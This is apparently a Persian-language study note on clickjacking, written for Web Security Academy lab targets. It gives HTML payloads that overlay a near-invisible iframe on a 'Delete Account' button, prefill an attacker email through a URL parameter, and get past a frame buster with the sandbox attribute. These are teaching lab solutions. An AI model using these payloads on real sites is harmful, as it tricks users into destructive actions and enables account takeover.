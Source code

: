 # Clickjacking

## Exploit
- **حمله مقدماتی با حفاظت CSRF Token**
  - در کد زیر پیکسل ها را تغییر می دهیم تا متن *Click me* روی کلید *Delete Account* بیفند ، برای این کار باید ابتدا opacity را برابر 0.1 قرار دهیم و پس از بدست آوردن موقعیت درست، آن را روی 0.0001 تنظیم کنیم:
```HTML
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: $opacity;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Test me</div>
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account"></iframe>
```
- **پر کردن خودکار فیلدهای فرم با استفاده از URL Param**
  - برای این منظور در کد فوق تگ iframe را به شکل زیر تغییر می دهیم:
```HTML
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
- **بای پاس کردن frame buster**
  - برای این کار  attribute زیر را به تگ iframe اضافه می کنیم:
```HTML
<iframe sandbox="allow-forms" src="https://ac1f1fd41fe93c54c00a5216000e009e.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
``` 
- ی
